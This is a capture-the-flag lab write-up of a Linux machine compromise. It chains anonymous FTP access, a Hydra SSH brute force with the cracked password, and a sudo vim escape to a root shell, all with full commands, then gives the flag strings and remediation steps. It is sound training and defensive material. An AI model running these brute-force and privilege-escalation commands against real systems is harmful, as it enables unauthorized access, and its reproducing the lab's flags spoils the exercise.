

# Linux Privilege Escalation

### 🚩 Flags Captured

> **User Flag — `/home/mitch/.user.txtm**CICCC{G00d JoB K33p Go1nG}`
> 

> **Root Flag — `/root/root.txt** CICCC{F0unD_th3_r0oT_FL4g}`
> 

### Key Findings

| Finding | Severity | Impact |
| --- | --- | --- |
| Anonymous FTP with sensitive file | 🟠 High | Username + weak password hint disclosed |
| Weak SSH password (brute forced) | 🟠 High | Unauthorized access as mitch |
| NOPASSWD sudo rule for vim | 🔴 Critical | Immediate root privilege escalation |

---

## Engagement Details

| Field | Detail |
| --- | --- |
| Target IP | 192.168.50.43 |
| Hostname | simplectf |
| Operating System | Ubuntu 18.04.6 LTS (GNU/Linux 4.15.0-213-generic x86_64) |
| Assessment Type | Black-box Penetration Test — In-Person Lab |
| Scope | All services on 192.168.50.43 |
| Date | June 22, 2026 |
| Objective | Initial access + user flag + root flag |

---

## Phase 1 — Reconnaissance

### Nmap Port Scan

An nmap SYN scan with service version detection was run against the target to enumerate all open ports and identify running services.

```bash
nmap -sS -sV 192.168.50.43
```



### Results

| Port | Service | Version |
| --- | --- | --- |
| 21/tcp | FTP | vsftpd 3.0.3 |
| 80/tcp | HTTP | Apache httpd 2.4.29 (Ubuntu) |
| 2222/tcp | SSH | OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 |

**Key observations:**

- SSH is on **non-standard port 2222** — all SSH commands must use `p 2222`
- FTP (vsftpd 3.0.3) present — common anonymous login misconfiguration target
- Apache on port 80 likely hosts the CMS referenced later in intelligence file
- Host fingerprinted as a Proxmox VM (MAC: BC:24:11:6F:89:44)

---

## Phase 2 — FTP Enumeration & Information Disclosure

### Anonymous FTP Login

FTP was the first service tested. Anonymous login was attempted using `anonymous` as the username and a blank password — a common vsftpd misconfiguration.

```bash
ftp 192.168.50.43
# Name: anonymous
# Password: (blank — press Enter)
```

The login succeeded: **230 Login successful.**


### FTP Session Walkthrough

Directory enumeration revealed a `pub` subdirectory containing `ForMitch.txt`, which was downloaded for analysis.

```
ftp> ls -la          → pub/ directory found
ftp> cd pub
ftp> ls -la          → ForMitch.txt (116 bytes) found
ftp> get ForMitch.txt
```

### Intelligence File — ForMitch.txt


```
Mitch, please DO NOT use the same password for the system and for the CMSMS
login. ALso, your password is too weak.
```

**Intelligence extracted:**

- ✅ Target username confirmed: **mitch**
- ✅ Password explicitly described as **"too weak"** — ideal for brute force
- ✅ Password reuse between SSH and a CMS (CMSMS — CMS Made Simple)
- ✅ A CMS is likely accessible via Apache on port 80

---

## Phase 3 — Initial Access via SSH Brute Force

### Hydra SSH Brute Force

Armed with the username `mitch` and confirmation of a weak password, Hydra was used to brute force SSH on port 2222 with the rockyou.txt wordlist.

```bash
hydra -l mitch -P /usr/share/wordlists/rockyou.txt -s 2222 192.168.50.43 ssh
```


> **Note:** `-s` is required to specify a non-standard port. Using `ssh://host -p port` syntax causes a syntax error with Hydra.
> 

**Result:**

```
[2222][ssh] host: 192.168.50.43   login: mitch   password: secret
```

### Credentials Found

| Field | Value |
| --- | --- |
| Username | mitch |
| Password | secret |
| Protocol | SSH |
| Port | 2222 |
| Wordlist | /usr/share/wordlists/rockyou.txt |

The password `secret` appears near the top of rockyou.txt — directly validating the warning in ForMitch.txt.

---

## Phase 4 — Post-Exploitation & User Flag

### SSH Login

```bash
ssh mitch@192.168.50.43 -p 2222
# Password: secret
```


Connected successfully. Target confirmed as **Ubuntu 18.04.6 LTS**.

### Home Directory Enumeration

```bash
ls -la 
```


`user.txt` (or `.user.txt`) was immediately visible in the home directory.

### User Flag

```bash
cat ~/.user.txt
```


> 🚩 **User Flag — `/home/mitch/.user.txt**CICCC{G00d JoB K33p Go1nG}`
> 

---

## Phase 5 — Privilege Escalation

### Sudo Enumeration

The first privilege escalation check was `sudo -l` — always the highest-priority post-exploitation check on Linux.

```bash
sudo -l
```


This means mitch can run **vim as root with no password**. Since vim supports internal shell execution via `:!`, this is a textbook GTFOBins escalation.

### GTFOBins — vim Privilege Escalation

```bash
sudo vim -c ':!/bin/bash'
```

**How it works:**

- `sudo` runs vim as root (no password required — NOPASSWD)
- `c` passes a vim command at launch
- `:!/bin/bash` executes bash as a shell command from within vim
- The spawned shell inherits **root's privileges**

Shell prompt changed to `root@simplectf:~#` — root access confirmed.


---

## Phase 6 — Root Flag

```bash
whoami        # → root
ls /root/     # → root.txt
cat /root/root.txt
```


> 🚩 **Root Flag — `/root/root.txt**CICCC{F0unD_th3_r0oT_FL4g}`
> 

---

## 9. Complete Attack Chain

| # | Phase | Action | Result |
| --- | --- | --- | --- |
| 1 | Recon | `nmap -sS -sV 192.168.50.43` | Ports 21, 80, 2222 found |
| 2 | FTP Enum | Anonymous FTP login | `pub/ForMitch.txt` downloaded |
| 3 | Info Disclosure | `cat ForMitch.txt` | User mitch + weak pwd confirmed |
| 4 | Brute Force | `hydra` SSH rockyou.txt port 2222 | `mitch:secret` cracked < 1 min |
| 5 | Initial Access | `ssh mitch@target -p 2222` | Shell as mitch on Ubuntu 18.04 |
| 6 | User Flag | `cat ~/.user.txt` | `CICCC{G00d JoB K33p Go1nG}` |
| 7 | Privesc Enum | `sudo -l` | vim NOPASSWD as ALL found |
| 8 | Privesc Exploit | `sudo vim -c ':!/bin/bash'` | Root shell obtained |
| 9 | Root Flag | `cat /root/root.txt` | `CICCC{F0unD_th3_r0oT_FL4g}` |

---

## 10. Recommendations & Remediation

### 🔴 10.1 Disable FTP Anonymous Login

```bash
# /etc/vsftpd.conf
anonymous_enable=NO

# Restart service
systemctl restart vsftpd
```

### 🔴 10.2 Enforce Strong Passwords

```bash
# Install pam-pwquality
apt install libpam-pwquality

# /etc/security/pwquality.conf
minlen = 12
dcredit = -1
ucredit = -1
special = -1
```

### 🔴 10.3 Remove NOPASSWD Sudo Rule for vim

```bash
# Run: sudo visudo
# Delete this line:
mitch ALL=(ALL) NOPASSWD: /usr/bin/vim
```

### 🟡 10.4 Audit All Sudo Rules

```bash
cat /etc/sudoers
ls /etc/sudoers.d/
```

Every NOPASSWD entry is a potential privilege escalation vector. Apply the principle of least privilege.

---

## 11. Conclusion

This assessment demonstrated how a chain of low-complexity misconfigurations results in complete system compromise. No CVEs were exploited — every step relied purely on misconfiguration and weak credentials.

**Fixing any one of these three issues would have broken the attack chain:**

1. Disabling anonymous FTP → no username or password hint
2. Strong password → brute force fails
3. Removing vim sudo rule → no privilege escalation

| Field | Value |
| --- | --- |
| Flags captured | 2 / 2 |
| User Flag | `CICCC{G00d JoB K33p Go1nG}` |
| Root Flag | `CICCC{F0unD_th3_r0oT_FL4g}` |
| Time to root | < 30 minutes |
| CVEs used | None — misconfiguration only |
| Tools used | nmap, ftp, hydra, ssh, sudo, vim (GTFOBins) |